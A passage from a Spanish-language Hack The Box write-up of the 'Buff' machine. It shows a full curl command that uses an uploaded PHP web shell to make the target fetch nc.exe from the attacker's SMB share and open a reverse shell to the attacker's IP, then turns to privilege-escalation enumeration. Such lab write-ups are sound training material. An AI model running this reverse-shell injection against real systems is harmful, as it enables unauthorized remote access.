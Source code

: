 Ahora bien, solo resta inyectar el comando para la reverse shell utilizando el ```nc.exe``` compartido previamente. En esta ocasión el comando lo inyectaré directamente con ```curl```, ya que según la documentación del exploit, se ha subido un archivo llamado ```kamehameha.php```, el cual recibe la variable ```telepathy``` a través del método **GET**.

En mi caso, la ruta completa es: ```http://buff.htb:8080/upload/kamehameha.php```.

```bash
curl -s "http://buff.htb:8080/upload/kamehameha.php" -G --data-urlencode 'telepathy=\\10.10.14.116\shared\nc.exe -e cmd 10.10.14.116 443'
```

Ejecutamos y conseguimos una shell como el usuario **shaun**.

![](/images/HTB/Buff/28-shell-as-shaun.png)

Una vez dentro, lo siguiente sería enumerar internamente en búsqueda de métodos para escalar privilegios.

Antes de ejecutar herramientas de *recon* como [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), una simple enumeración del directorio home de nuestro usuario nos revela un ```.exe``` interesante.

![](/images/HTB/Buff/35-cloudme-downloads.png)
